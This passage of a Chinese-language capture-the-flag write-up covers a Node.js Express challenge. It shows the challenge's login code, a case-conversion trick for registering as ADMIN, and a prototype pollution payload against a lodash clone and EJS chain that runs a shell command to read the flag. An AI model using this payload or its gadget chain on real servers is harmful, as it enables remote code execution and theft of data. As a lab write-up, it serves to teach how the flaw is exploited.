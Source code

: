 ```javascript
            'user': req.body.userid.toUpperCase(),
            'passwd': req.body.pwd,
            'isLogin': false
        }
        res.redirect('/');
    } else if (req.body.Submit == "login") {
        if (!req.session.user) { res.end("<script>alert('register first');history.go(-1);</script>") }
        if (req.session.user.user == req.body.userid && req.body.pwd == req.session.user.passwd) {
            req.session.user.isLogin = true;
        } else {
            res.end("<script>alert('error passwd');history.go(-1);</script>")
        }

    }
    res.redirect('/');;
});
```

匹配大小写之后`toUpperCase`转为大写，p牛的一篇文章：

>   Fuzz中的javascript大小写特性
>
>   https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

注册admın

之后就到了漏洞部分：

```javascript
router.post('/action', function(req, res) {
    if (req.session.user.user != "ADMIN") { res.end("<script>alert('ADMIN is asked');history.go(-1);</script>") }
    req.session.user.data = clone(req.body);
    res.end("<script>alert('success');history.go(-1);</script>");
});
```

payload的构造：https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/

`{"__proto__":{"outputFunctionName":"a;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')//"},"Submit":""}`

改application/json，之后访问info得flag。

end.

-------------



>   https://www.cnblogs.com/ophxc/p/13298896.html
>   https://as1def.github.io/2021/01/24/NodeJs%E4%BB%8E%E9%9B%B6%E5%BC%80%E5%A7%8B%E5%88%B0%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93/
>   https://www.anquanke.com/post/id/236182
>   https://www.freebuf.com/articles/web/200406.html
>   https://www.cnblogs.com/tr1ple/p/11360881.html
>   https://0xcreed.jxustctf.top/2020/06/nodejs%E5%AD%A6%E4%B9%A0/
>   https://xz.aliyun.com/t/7184#toc-3
>   https://xz.aliyun.com/t/7182
>   https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html
>   https://evi0s.com/2019/08/30/expresslodashejs-%e4%bb%8e%e5%8e%9f%e5%9e%8b%e9%93%be%e6%b1%a1%e6%9f%93%e5%88%b0rce/
>   https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html



